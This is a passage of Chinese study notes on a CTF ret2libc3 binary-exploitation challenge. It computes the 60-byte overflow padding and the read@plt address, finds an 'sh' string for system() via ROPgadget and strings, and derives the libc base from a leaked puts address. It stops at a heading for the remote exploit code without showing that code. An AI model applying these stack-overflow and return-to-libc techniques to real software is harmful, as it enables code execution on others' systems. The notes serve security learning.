 因此需要填充的垃圾数据长度为

```C
0x48 - 0x10 = 0x38 = 56 bytes
56 + 4(ebp) = 60 bytes
```

还需要调用`read`(由于没有gets)

<img src="D:\github\pwn\pwn_study\images\more_params_stack_balance.png" alt="image-20220604023639862" style="zoom: 33%;" />

```C
0x80483b0: read@plt
```

注意此题目`.bss`区域并没有可供写入`/bin/sh`的变量

因此考虑通过**环境变量**得到

```C
system("sh")  ---> 环境变量
system("/bin/sh") ---> 绝对路径
```

也是可行的！！！

```python
$ ROPgadget --binary ret2libc3  --string "sh"
Strings information
============================================================
0x080461b2 : sh
```

又或者通过下述命令查找函数符号表，这些函数名在内存中实际上也是一些字符串，因此只需要从以`sh`结尾的函数符号名的`s`处开始读取就可以仍然当做`system`函数的参数

```python
$ strings ret2libc3 | grep sh
fflush
.shstrtab
.gnu.hash
fflush@@GLIBC_2.0
```





###### 完全与远程交互代码

> 推导
>
> ```
> Base = E(puts) - Libc(puts)
> Because: 
> 	E(system) - E(puts) = L(system) - L(puts)
> then:
> 	E(system) = [ E(puts)-L(puts) ] + L(system)
> 	          = Base + L(system)
> ```
